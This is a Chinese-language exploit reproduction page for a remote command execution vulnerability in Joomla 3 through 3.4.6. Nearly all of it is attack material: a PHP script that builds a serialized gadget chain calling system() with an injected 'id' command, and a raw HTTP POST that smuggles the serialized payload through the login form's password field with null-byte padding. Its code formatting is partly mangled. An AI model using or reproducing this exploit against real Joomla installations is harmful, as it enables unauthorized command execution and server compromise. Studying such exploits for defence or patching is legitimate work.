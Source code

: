 ```yaml
---
title: "Joomla 3-3.4.6 远程命令执行漏洞"
id: zhfly2995
---
```


# Joomla 3-3.4.6 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Joomla 3-3.4.6

PHP < 5.6.13

## 三、复现过程

```
<?php

class JSimplepieFactory {}

class JDatabaseDriverMysql {}

class SimplePie

{

var $feed_url;

var $cache;

var $sanitize;

var $cache_name_function;

```
public function __construct($feed_url, $cache, $sanitize, $cache_name_function)
{
    $this-&gt;feed_url = $feed_url;
    $this-&gt;cache = $cache;
    $this-&gt;sanitize = $sanitize;
    $this-&gt;cache_name_function = $cache_name_function;
} 
```

}

class JDatabaseDriverMysqli

{

protected $obj;

protected $connection;

protected $disconnectHandlers = array();

```
public function __construct($obj, $connection, $disconnectHandlers)
{
    $this-&gt;obj = $obj;
    $this-&gt;connection = $connection;
    $this-&gt;disconnectHandlers = $disconnectHandlers;
} 
```

}

$function = ‘system’;

$argument = ‘[http://www.0-sec.org](http://www.0-sec.org);id’;

// $function = ‘assert’;

// $argument = ‘phpinfo() || “[http://www.0-sec.org](http://www.0-sec.org)”’;

$simplepie = new SimplePie($argument, true, new JDatabaseDriverMysql(), $function);

$jdatabasedrivermysqli = new JDatabaseDriverMysqli(new JSimplepieFactory(), true, array(array($simplepie,‘init’)));

echo urlencode(serialize($jdatabasedrivermysqli)); `?>` 
```

```
POST /Joomla/ HTTP/1.1
Host: www.0-sec.org:8000
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: XDEBUG_SESSION=PHPSTORM; 17511585a4996c48455fa590ab8d4d24=58c7q9ocb6n3q0tjj7m0s3g3i6
Content-Length: 737

CSRF-Token值=1&task=user.login&option=com_users&username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=AAA";s:3:"233":序列化payload 
```